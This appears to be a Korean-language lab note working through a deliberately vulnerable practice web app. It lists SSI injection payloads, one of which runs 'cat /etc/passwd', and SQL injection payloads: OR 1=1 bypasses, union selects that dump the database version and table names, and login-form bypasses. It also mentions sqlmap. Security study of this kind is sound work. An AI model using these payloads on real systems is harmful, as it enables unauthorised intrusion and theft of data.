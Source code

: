 First name : test
Last name : lee
	입력값과 IP 출력
SSI 지시어 
	`<!--주석 내용-->
	`#명령어
First name : `<!--#exec cmd="cat /etc/passwd"-->
Last name : 1
## SQL Injection(GET/Search)
### security : low
'
	SQL syntax 오류 출력
' OR 1=1 #
' OR 1=1 -- 

php?title= ~
	title을 통해 sqlmap으로 SQL Injection
' union select all 1,2,3,4,5,6,7#
	칼럼 번호와 목록 출력
' union select all 1,2,@@version,4,5,6,7#
' union select all 1,table_name,3,4,5,6,7 from information_schema.tables#
## SQL Injection(GET/Select)
### security : low
php?movie=5'&action=go
	Syntax Error
php?movie=0 union select all 1,2,3,4,5,6,7#&action=go
	칼럼 번호 출력
## SQL Injection(AJAX/JSON/jQuery)
### security : low
비동기 방식 -> 입력하면 바로 결과 출력됨
' or 1=1#
	모든 목록 출력
## SQL Injection(CAPTCHA)
### security : low
인증문자 입력하고 들어가서 ' or 1=1#

## SQL Injection(Login Form/Hero)
### security : low
Login : '
Password : 1234
	Syntax error
Login : ' or 1=1 #
Password :  ' or 1=1 -- 
## SQL Injection(Login Form/User)
### security : low
Login : '
Password : 1234
	Syntax error
sqlmap으로 sql Injection 시도
## SQL Injection(SQLite)
### security : low
'